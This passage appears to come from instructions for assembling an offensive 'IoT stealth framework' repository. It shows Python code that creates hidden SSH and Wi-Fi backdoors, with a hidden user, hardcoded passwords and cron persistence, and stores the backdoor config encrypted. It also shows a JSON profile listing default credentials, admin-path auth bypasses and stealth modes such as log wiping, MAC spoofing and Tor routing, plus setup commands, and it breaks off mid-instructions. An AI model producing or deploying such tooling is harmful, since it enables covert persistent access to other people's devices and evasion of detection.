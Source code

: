 ```python
        
        self.save_config(config)
        print(f"[+] {backdoor_type.capitalize()} backdoor created")
    def create_ssh_backdoor(self):
        return {
            "type": "ssh",
            "username": ".hidden_user",
            "password": "s3cr3tP@ss",
            "persistence_method": "cron_job"
        }
    
    def create_wifi_backdoor(self):
        return {
            "type": "wifi",
            "ssid": "Hidden_Network",
            "password": "P@ssw0rd123",
            "dhcp_range": "192.168.77.100-200"
        }
    
    def save_config(self, config):
        # Encrypt configuration
        if not os.path.exists(self.key_file):
            key = Fernet.generate_key()
            with open(self.key_file, "wb") as f:
                f.write(key)
        
        with open(self.key_file, "rb") as f:
            key = f.read()
        
        cipher = Fernet(key)
        encrypted_config = cipher.encrypt(json.dumps(config).encode())
        
        with open(self.config_file, "wb") as f:
            f.write(encrypted_config)
```
### 10. `configs/device_profiles.json`
```json
{
  "default_interface": "wlan0",
  "known_vulnerabilities": {
    "ssh_default_creds": ["admin:admin", "root:root", "user:12345"],
    "http_auth_bypass": ["/admin", "/config", "/debug"]
  },
  "stealth_modes": ["mac_spoof", "log_wipe", "tor_routing"]
}
```
### Repository Setup:
1. **Initialize Repository**:
```bash
mkdir iot-stealth-framework
cd iot-stealth-framework
git init
```
2. **Create Files**:
```bash
touch LICENSE README.md requirements.txt ispf.py
mkdir configs modules docs
touch configs/backdoor.cfg.sample configs/device_profiles.json
touch modules/__init__.py modules/bluetooth_scanner.py modules/vulnerability_scanner.py
touch modules/backdoor_manager.py modules/packet_tools.py
touch docs/SETUP.md docs/LEGAL_DISCLAIMER.md
```
3. **Add Content**: